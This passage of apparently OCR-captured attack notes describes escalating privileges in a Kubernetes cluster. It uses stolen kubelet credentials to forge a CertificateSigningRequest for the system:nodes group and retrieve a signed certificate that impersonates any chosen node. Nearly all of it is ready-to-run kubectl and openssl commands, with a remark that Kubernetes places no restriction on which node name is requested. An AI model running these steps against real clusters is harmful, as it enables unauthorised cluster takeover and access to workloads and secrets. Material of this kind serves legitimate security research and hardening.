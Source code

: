 Base64 decode client certificate:

```bash
kubectl --client-certificate kubelet.crt --client-key kubelet.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get certificatesigningrequests <NODE_NAME> -o jsonpath='{.status.certificate}' | base64 -d > node.crt
```

- cannot yet get pod with client certificate cause the private key rotates every time before a new CSR is created (using `LoadOrGenerateKeyFile` function)
- must create own key, generate CSR, and submit the CSR and key

********Become a Node********

Create private key:

```bash
openssl req -nodes -newkey rsa:2048 -keyout k8shack.key -out k8shack.csr -subj "/O=system:nodes/CN=system:node:<NODE_NAME>"
```

- note that you can specify the node name and it will work because Kubernetes has no restrictions for which certificates a node can request

Submit key to API:

```bash
cat <<EOF | kubectl --client-certificate kubelet.crt --client-key kubelet.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} create -f -
apiVersion: certificates.k8s.io/v1beta1
kind: CertificateSigningRequest
metadata:
  name: node-csr-$(date +%s)
spec:
  groups:
  - system:nodes
  request: $(cat k8shack.csr | base64 | tr -d '\n')
  usages:
  - digital signature
  - key encipherment
  - client auth
EOF
```

Get pod:

```bash
kubectl --client-certificate kubelet.crt --client-key kubelet.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get csr <NODE_NAME>
```

Get certificate:

```bash
kubectl --client-certificate kubelet.crt --client-key kubelet.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get csr <NODE_NAME> -o jsonpath='{.status.certificate}' | base64 -d > node2.crt
```
